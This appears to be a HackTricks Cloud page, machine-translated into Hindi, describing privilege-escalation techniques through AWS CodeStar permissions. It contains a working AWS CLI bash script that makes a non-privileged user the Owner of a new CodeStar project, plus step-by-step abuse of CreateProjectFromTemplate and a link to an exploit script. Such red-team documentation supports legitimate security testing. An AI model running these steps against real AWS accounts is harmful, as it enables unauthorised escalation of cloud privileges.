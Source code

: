 # AWS - Codestar Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Codestar

आपको कोडस्टार के बारे में अधिक जानकारी मिल सकती है:

{% content-ref url="codestar-createproject-codestar-associateteammember.md" %}
[codestar-createproject-codestar-associateteammember.md](codestar-createproject-codestar-associateteammember.md)
{% endcontent-ref %}

### `iam:PassRole`, `codestar:CreateProject`

इन अनुमतियों के साथ आप **कोडस्टार IAM भूमिका** का **दुरुपयोग** कर सकते हैं ताकि **मनमाने कार्य** को **क्लाउडफॉर्मेशन टेम्पलेट** के माध्यम से किया जा सके। निम्नलिखित पृष्ठ की जांच करें:

{% content-ref url="iam-passrole-codestar-createproject.md" %}
[iam-passrole-codestar-createproject.md](iam-passrole-codestar-createproject.md)
{% endcontent-ref %}

### `codestar:CreateProject`, `codestar:AssociateTeamMember`

यह तकनीक `codestar:CreateProject` का उपयोग करके एक कोडस्टार प्रोजेक्ट बनाती है, और `codestar:AssociateTeamMember` का उपयोग करके एक IAM उपयोगकर्ता को एक नए CodeStar **प्रोजेक्ट** का **स्वामी** बनाती है, जो उन्हें **कुछ अतिरिक्त अनुमतियों के साथ एक नई नीति** प्रदान करेगा।
```bash
PROJECT_NAME="supercodestar"

aws --profile "$NON_PRIV_PROFILE_USER" codestar create-project \
--name $PROJECT_NAME \
--id $PROJECT_NAME

echo "Waiting 1min to start the project"
sleep 60

USER_ARN=$(aws --profile "$NON_PRIV_PROFILE_USER" opsworks describe-my-user-profile | jq .UserProfile.IamUserArn | tr -d '"')

aws --profile "$NON_PRIV_PROFILE_USER" codestar associate-team-member \
--project-id $PROJECT_NAME \
--user-arn "$USER_ARN" \
--project-role "Owner" \
--remote-access-allowed
```
यदि आप पहले से ही **प्रोजेक्ट के सदस्य** हैं, तो आप अनुमति **`codestar:UpdateTeamMember`** का उपयोग करके **अपनी भूमिका** को मालिक में अपडेट कर सकते हैं, इसके बजाय **`codestar:AssociateTeamMember`** के।

**संभावित प्रभाव:** कोडस्टार नीति में प्रिवेस्क। आप उस नीति का एक उदाहरण यहाँ पा सकते हैं:

{% content-ref url="codestar-createproject-codestar-associateteammember.md" %}
[codestar-createproject-codestar-associateteammember.md](codestar-createproject-codestar-associateteammember.md)
{% endcontent-ref %}

### `codestar:CreateProjectFromTemplate`

1. **एक नया प्रोजेक्ट बनाएं:**
* एक नए प्रोजेक्ट के निर्माण को प्रारंभ करने के लिए **`codestar:CreateProjectFromTemplate`** क्रिया का उपयोग करें।
* सफल निर्माण पर, **`cloudformation:UpdateStack`** के लिए स्वचालित रूप से पहुंच प्रदान की जाती है।
* यह पहुंच विशेष रूप से `CodeStarWorker-<generic project name>-CloudFormation` IAM भूमिका से संबंधित एक स्टैक को लक्षित करती है।
2. **लक्षित स्टैक को अपडेट करें:**
* प्रदान की गई CloudFormation अनुमतियों के साथ, निर्दिष्ट स्टैक को अपडेट करने के लिए आगे बढ़ें।
* स्टैक का नाम आमतौर पर दो पैटर्न में से एक के अनुसार होगा:
* `awscodestar-<generic project name>-infrastructure`
* `awscodestar-<generic project name>-lambda`
* सटीक नाम चुने गए टेम्पलेट पर निर्भर करता है (उदाहरण शोषण स्क्रिप्ट का संदर्भ)।
3. **पहुँच और अनुमतियाँ:**
* अपडेट के बाद, आप स्टैक से जुड़े **CloudFormation IAM भूमिका** को सौंपे गए क्षमताएँ प्राप्त करते हैं।
* नोट: यह स्वाभाविक रूप से पूर्ण व्यवस्थापक विशेषाधिकार प्रदान नहीं करता है। विशेषाधिकारों को और बढ़ाने के लिए वातावरण में अतिरिक्त गलत कॉन्फ़िगर किए गए संसाधनों की आवश्यकता हो सकती है।

अधिक जानकारी के लिए मूल शोध देखें: [https://rhinosecuritylabs.com/aws/escalating-aws-iam-privileges-undocumented-codestar-api/](https://rhinosecuritylabs.com/aws/escalating-aws-iam-privileges-undocumented-codestar-api/).\
आप शोषण को यहाँ पा सकते हैं [https://github.com/RhinoSecurityLabs/Cloud-Security-Research/blob/master/AWS/codestar\_createprojectfromtemplate\_privesc/CodeStarPrivEsc.py](https://github.com/RhinoSecurityLabs/Cloud-Security-Research/blob/master/AWS/codestar\_createprojectfromtemplate\_privesc/CodeStarPrivEsc.py)

**संभावित प्रभाव:** cloudformation IAM भूमिका में प्रिवेस्क।

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **Twitter** पर हमें **फॉलो** करें 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करके हैकिंग ट्रिक्स साझा करें।**

</details>
{% endhint %}
